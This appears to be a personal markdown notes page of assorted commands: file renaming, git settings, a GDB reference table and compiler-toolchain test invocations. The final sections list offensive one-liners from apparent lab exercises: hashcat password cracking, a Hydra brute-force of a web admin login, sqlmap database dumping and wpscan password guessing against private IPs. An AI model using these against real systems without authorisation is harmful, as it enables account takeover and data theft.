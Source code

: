 ```yaml
---
title: "Useful Commands Dump"
tags:
  - help
  - work
---
```

# Useful Commands Dump
---

Well... where I dump any useful commands I find and them hopefully I'll categorise them... eventually...

## Terminal
* Change file extension of all files:
```bash
for file in *.txt; do mv "$file" "${file%.txt}.md"; done
```

* If Git is hanging after total is because:
```bash
git config --global http.postBuffer 157286400
```

## GDB
| Command                      | Description                                                      |
| ---------------------------- | ---------------------------------------------------------------- |
| `gdb --args <binary> <args>` | Start the program with an argument list.                         |
| `b FileName:linenum`         | For setting a breakpoint.                                        |
| `bt`                         | For getting backtrace.                                           |
| `thread apply all bt`        | For getting the backtrace of all threads.                        |
| `p variableName`             | For printing the value of a variable/object.                     |
| `up`                         | For going up the stack frame.                                    |
| `down`                       | For going down the stack frame.                                  |
| `l`                          | For listing source lines of code around the current stack frame. |
| `disassemble`                | For showing the assembly code of the current function.           |
| `n`                          | For executing the next source instruction.                       |
| `si`                         | For executing the next machine instruction.                      |
| `q`                          | To quit the debugger.                                            |
| `r`                          | To run the program.                                              |

The docs are [here](https://www.gnu.org/software/gdb/documentation/).
More info on [GDB](notes/gdb.md).

## The dump of dumps

### BSC/Tiger related
```bash
runtest --tool=gcc --tool_exec=bsc-elf-clang  --tool_opts= --directory=${HOME}/tiger/gcc-for-llvm-testing/gcc/testsuite/gcc.target --srcdir=${HOME}/tiger/gcc-for-llvm-testing/gcc/testsuite --target_board=bsc-embdebug --target=bsc-elf "bsc.exp=bsc/or.c"
```

```bash
export PATH=${HOME}/riscv32-clang-gcc-testing/install/bin:$PATH
export BSC_TIMEOUT=300
export BSC_TRIPLE=bsc-elf
export BSC_SIM_COMMAND=bsc-run
export BSC_SIM_FLAGS=
export DEJAGNU=${HOME}/tiger/toolchain/site.exp
export TOOLDIR=${HOME}/tiger/toolchain/
```

```bash
bsc-elf-gdb -ex 'target remote | embdebug --soname bsc --stdin' -ex 'break exit' -ex 'break abort' test2.exe
```

```bash
llvm-objdump -d <testobject>
```

```bash
bsc-run --max-steps=200 --trace-inst --trace-regs --trace-stack ds.exe 2>&1 | tee output.txt
```

```bash
pietraferreira@tom:~/insn-test-tiger$ bsc-elf-gdb -ex 'target remote | embdebug --soname bsc --stdin' -ex 'break exit' -ex 'break abort' sub.exe
```

Ask the front end to produce unoptimised LLVM IR:
```bash
bsc-elf-clang -Wall -O0 -S -emit-llvm --target=bsc 20180309-1.c -o 20180309-1.ll
```

Compile but stop at assembly:
```bash
llc --debug -mtriple=bsc 20180309-1.ll -o 20180309-1.s
```

```bash
llvm-objdump -d sim-test.exe
```

```bash
bsc-elf-gdb sim-test.exe -ex "target remote | embdebug --soname sysc-bsc --vcd=trace-do --debug=0x00070000 --clk-mhz=1 --sim-cycles=10000 --stdin" -ex load -ex c -ex detach -ex quit 2>&1 | tee sim-test.log
```

## Website URL Fix
```bash
grep -rl 'notes/images' . | sort | uniq | xargs perl -e "s/assets/assets\/engineer-training/" -pi
```

## Hashcat
```bash
hashcat -m 1000 pass.txt ../Desktop/rockyou.txt
```

## Hydra
```bash
hydra -l admin -P ../Desktop/rockyou.txt 10.10.187.151 http-post-form "/Account/login.aspx?ReturnURL=/admin:__VIEWSTATE=iL08cD6b3clJctyo0KNeEsuXx9w7SrkAtggDy0m16fdgDu1lU1uuo3uh6%2FRluRbkD9GutlhMGTHkzw5TKQ%2BHgSoGVo73vHE7yAY2Vsky3EyktnYS%2BIy0jb68wZvhEHGpOLmwYsk3M7NnT45B%2B2jaDdrRfwr94Ks2d1VIKp2LvcNs%2F6rd&__EVENTVALIDATION=5N%2Bcad1wYajo0H2m7Bq3nlBqYeKcha9MeicRSms1xOrJ8b9v%2FiDF9nj6Kge38NGN6KBMhWEtiNyCZFWTMItDUQu34YiMN8vVxQv6lQEgBw5RWhtEihlALnJsM5gAhf89mlKiwmAbHq2Lz0jR30paNwnGrt5M%2Fwj7m6oohs8%2F8JQKoaoM&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login Failed" -vv
```

## SQLmap
```bash
sqlmap -r request.txt --dbms=mysql --dump
```

## Wordpress
Enumeration:

```bash
wpscan --url 10.10.101.40/blog
```

Look for vulnerable plugins and usernames:

```bash
wpscan --url 10.10.101.40/blog --usernames admin --passwords /usr/share/wordlists/rockyou.txt --max-threads 50
```
